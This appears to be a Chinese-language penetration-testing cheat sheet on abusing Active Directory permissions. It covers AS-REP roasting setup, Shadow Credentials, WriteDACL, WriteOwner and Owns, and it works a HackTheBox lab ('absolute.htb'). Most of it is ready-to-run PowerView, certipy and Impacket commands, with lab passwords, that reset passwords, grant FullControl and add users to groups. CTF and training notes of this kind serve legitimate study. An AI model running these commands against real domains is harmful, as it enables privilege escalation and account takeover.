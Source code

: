 **修改用户,启用 `DONT_REQ_PREAUTH` 标志, 配合 GetNPUsers.py 获取 hash 值**
```powershell
Get-DomainUser jorden | ConvertFrom-UACValue   (验证)
Set-DomainObject -Identity UserName -XOR @{useraccountcontrol=4194304} -Verbose
(再进行AS-REP攻击获取hash , GetNPUsers.py)
```

**Shadow Credential**
```bash
KRB5CCNAME=./m.lovegod.ccache certipy shadow auto -k -no-pass -u absolute.htb/m.lovegod@sc.absolute.htb -dc-ip 10.10.11.181 -target dc.absolute.htb -account winrm_user
```


- ### WriteDACL 滥用
```powershell
net group "GROUPNAME" /add USERNAME
```


- ### WriteOwner
```bash
Set-DomainObjectOwner -Identity B -OwnerIdentity A (设置 A 为 B 的 ACL 所有者)
Add-ObjectAcl -TargetIdentity B -PrincipalIdentity A -Rights ResetPassword (授予 A 更改 B 用户 ACL 上密码的权限)
$UserPassword=ConvertTo-SecureString 'xekOnerR!' -AsPlainText -Force (创建凭据信息设置密码)
Set-DomainUserPassword -Identity B -AccountPassword $UserPassword  (修改 B 的密码)
```


- ### Owns 滥用  
Owns 是**已经拥有**所有权，而 WriteOwner 是**可以设置**自己拥有所有权
##### 对 `组` 有 Owns 权限
**0x01 PS Session**
```powershell
Set-DomainObjectOwner -Identity "GroupName" -OwnerIdentity USERNAME
Add-DomainObjectAcl -TargetIdentity "GroupName" -PrincipalIdentity USERNAME -Rights All  (添加USERNAME拥有全部权限)
Add-DomainGroupMember -Identity 'GroupName' -Members 'USERNAME' (添加到组内)
```

**0x02 Linux With Impacket (dacledit.py)**
https://github.com/ShutdownRepo/impacket/tree/dacledit
为自己添加 `FullControl` 权限，从而可以控制这个组所控制的对象
```bash
source .venv/bin/activate
/usr/share/doc/python3-impacket/examples/getTGT.py absolute.htb/m.lovegod:'AbsoluteLDAP2022!' -dc-ip 10.10.11.181
KRB5CCNAME=~/CRTO-pr/Absolute/m.lovegod.ccache python3 ./examples/dacledit.py -dc-ip dc.absolute.htb -principal m.lovegod -target "Network Audit" -action write -rights FullControl absolute.htb/m.lovegod -k -no-pass
```
加入组操作
```bash
sudo apt install smb
sudo apt install krb5-user
( -- 修改/etc/krb5.conf --) [5986-WinRM 中有格式]
[rm /tmp/krb5cc_1000]
kinit m.lovegod
net rpc group addmem "Network Audit" m.lovegod -U 'm.lovegod' -S dc.absolute.htb [-k]
net rpc group members "Network Audit" -U 'm.lovegod' -S dc.absolute.htb  [-k] (验证)
```
